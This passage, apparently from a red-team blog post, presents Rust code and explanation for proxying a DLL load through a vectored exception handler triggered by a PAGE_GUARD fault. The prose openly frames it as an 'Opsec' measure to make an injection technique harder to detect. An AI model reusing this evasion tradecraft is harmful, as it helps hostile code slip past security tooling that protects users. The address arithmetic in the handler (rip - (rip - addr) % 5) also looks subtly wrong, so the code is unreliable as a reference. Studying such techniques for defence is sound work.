 ```rust
    let load_library_addr = GetProcAddress(kernel32_module, CString::new("LoadLibraryA").unwrap().as_ptr()) as usize;
    if load_library_addr == 0 {
        eprintln!("Failed to get address for LoadLibraryA");
        return EXCEPTION_CONTINUE_SEARCH;
    }

    let rip_address = (*(*exception_info).as_mut().unwrap().ContextRecord).Rip as usize;
    let load_library_call_address = rip_address - (rip_address - load_library_addr) % 5;

    (*(*exception_info).as_mut().unwrap().ContextRecord).Rip = load_library_call_address as u64;
    (*(*exception_info).as_mut().unwrap().ContextRecord).Rcx = MODULE_NAME.as_ptr() as u64;

    EXCEPTION_CONTINUE_EXECUTION
}
```

The initial step involves obtaining the module handle of `kernel32.dll` and determining the address of the `LoadLibraryA` function within it. `LoadLibraryA` is a Windows API function responsible for loading dynamic link libraries (DLLs). Subsequently, the implementation calculates a dynamic address for the `LoadLibraryA` call based on the current instruction pointer (`Rip`). After obtaining this dynamic address, it modifies the instruction pointer (`Rip`) to point to the dynamically calculated address for the `LoadLibraryA` call. Simultaneously, it sets the RCX register to the address of the DLL name (`foo.dll`).

For Opsec, storing the `LoadLibraryA` address directly on the stack might expose a static pattern, making it susceptible to identification through static analysis. By dynamically calculating the address and avoiding a direct push to the stack, the injection technique becomes less predictable and more challenging to detect. This avoidance of direct storage on the stack, coupled with dynamic loading of DLLs and runtime calculation of function addresses, increases the overall unpredictability.

```rust
fn proxied_load_library(module_name: &str) -> Option<winapi::um::libloaderapi::HMODULE> {
    unsafe {
        let handler = AddVectoredExceptionHandler(1, Some(vectored_exception_handler));
        if handler.is_null() {
            eprintln!("Failed to install Vectored Exception Handler");
            return None;
        }

        let mut old_protection: u32 = 0;
        VirtualProtect(mem::transmute::<_, *mut winapi::ctypes::c_void>(Sleep as usize), 1, PAGE_EXECUTE_READ | PAGE_GUARD, &mut old_protection);
        let addr = GetModuleHandleA(CString::new(module_name).unwrap().as_ptr());

        RemoveVectoredExceptionHandler(handler);

        Some(addr)
    }
}
```

Using `VirtualProtect` to set a page to `PAGE_GUARD` and induce a guard page violation serves as a subtle method for initiating the Vectored Exception Handler. This approach allows for the dynamic modification of memory protection, introducing an element of variability that makes the technique less static. By triggering the guard page violation, the implementation can seamlessly invoke the Vectored Exception Handler, enabling dynamic adjustments to memory protection settings and contributing to a stealthier execution of the injection technique. [Source Code 9](https://github.com/0xf00I/DLLProxying-rs)
